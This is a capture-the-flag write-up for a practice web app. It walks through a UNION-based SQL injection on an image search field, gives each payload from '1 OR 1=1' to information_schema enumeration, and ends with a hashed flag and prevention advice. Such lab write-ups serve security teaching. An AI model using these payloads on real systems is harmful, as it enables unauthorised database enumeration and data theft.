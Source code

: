 # SQL Injection on Image Search Page
we realize there is an input field so we try a cheeky SQL Injection command
we try 

```tsx
1 OR 1=1
```

and realize it yield some results

```tsx
ID: 1 OR 1=1 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 OR 1=1 
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42

ID: 1 OR 1=1 
Title: Google
Url : https://fr.wikipedia.org/wiki/Logo_de_Go

ID: 1 OR 1=1 
Title: Earth
Url : https://en.wikipedia.org/wiki/Earth#/med

ID: 1 OR 1=1 
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

so now we will try a SQL Injection with UNION : basically querying some valid data from the image table via 1 OR 1=1 → and using union to have more information via this query, from aother table or the same table on more columns. Issue is : we need to know how much columns you have on this query, so we run (with X starting from 1 to ..):

```tsx
1 ORDER by X --
```

until it breaks → it breaks at 2 so it returns two columns.

we can now try to get the table name with this UNION query : everything coming after the 5th line (Hack me?) will be result of the UNION : let’s get the current database name with 

```tsx
1 OR 1 = 1 UNION SELECT NULL, database() --  
```

we get 

```tsx
ID: 1 OR 1 = 1 UNION SELECT NULL, database() --   
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_
ID: 1 OR 1 = 1 UNION SELECT NULL, database() --   
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42
ID: 1 OR 1 = 1 UNION SELECT NULL, database() --   
Title: Google
Url : https://fr.wikipedia.org/wiki/Logo_de_Go
ID: 1 OR 1 = 1 UNION SELECT NULL, database() --   
Title: Earth
Url : https://en.wikipedia.org/wiki/Earth#/med
ID: 1 OR 1 = 1 UNION SELECT NULL, database() --   
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 1 OR 1 = 1 UNION SELECT NULL, database() --   
Title: Member_images
Url : 
```

so we know we are in Member_images.

let’s get all the table : now we use the information_schema table and try to get 

```tsx
1 OR 1=1 UNION SELECT NULL, schema_name FROM information_schema.schemata
```

we get 

```tsx

[…]
ID: 1 OR 1=1 UNION SELECT NULL, schema_name FROM information_schema.schemata 
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 1 OR 1=1 UNION SELECT NULL, schema_name FROM information_schema.schemata 
Title: information_schema
Url : 

ID: 1 OR 1=1 UNION SELECT NULL, schema_name FROM information_schema.schemata 
Title: Member_Brute_Force
Url : 

ID: 1 OR 1=1 UNION SELECT NULL, schema_name FROM information_schema.schemata 
Title: Member_Sql_Injection
Url : 

ID: 1 OR 1=1 UNION SELECT NULL, schema_name FROM information_schema.schemata 
Title: Member_guestbook
Url : 

ID: 1 OR 1=1 UNION SELECT NULL, schema_name FROM information_schema.schemata 
Title: Member_images
Url : 

ID: 1 OR 1=1 UNION SELECT NULL, schema_name FROM information_schema.schemata 
Title: Member_survey
Url :
```

so there are 6 DB and we are in Member_images. let’s get all the tables and their names

```tsx
1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables 
```

there is a ton of them but the very interesting ones are :

```tsx
ID: 1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables  
Title: users
Url : Member_Sql_Injection

ID: 1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables  
Title: guestbook
Url : Member_guestbook

ID: 1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables  
Title: list_images
Url : Member_images
```

 but first to get the columns in those tables : as we know we can only select two columns with our unoins

```tsx
1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```

for users we have

```tsx
Title: user_id
Title: first_name
Title: last_name
Title: town
Title: country
Title: planet
Title: Commentaire
Title: countersign
Url : users
```


let’s try a few columns with users:

```tsx
1 OR 1=1 UNION SELECT user_id, country FROM users
```

→ we have no result (probably no access to this db)

we now try with list_images :

```tsx
1 OR 1=1 UNION SELECT id, comment FROM list_images
```

```tsx
ID: 1 OR 1=1 UNION SELECT id, comment FROM list_images 
Title: Google it !
Url : 3
ID: 1 OR 1=1 UNION SELECT id, comment FROM list_images 
Title: Earth!
Url : 4
ID: 1 OR 1=1 UNION SELECT id, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 5

```

if we reverse the md5 for `1928e8083cf461a51303633093573c46` we have

`albatroz`

and `sha256()` applied to alabtroz is : 

`f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

## Security Implications & Mitigation

## Why This Attack Worked?
User Input Was Not Sanitized

The application directly inserted user input into an SQL query without validation.
Lack of Prepared Statements

The backend likely used string concatenation instead of parameterized queries.
Overly Permissive Database Access

The attacker could list schemas, tables, and columns.

## How to Prevent SQL Injection

### Use Prepared Statements
Instead of:

```php
$query = "SELECT * FROM images WHERE id = " . $_GET['id'];
```

Use:

```php
$stmt = $pdo->prepare("SELECT * FROM images WHERE id = ?");
$stmt->execute([$_GET['id']]);
```
### Sanitize and Validate Input
* Use allowlists for expected input values.
* Convert all user input into escaped values.
* Restrict Database Privileges
* Ensure the application user does not have access to information_schema.
* Use Web Application Firewalls (WAFs)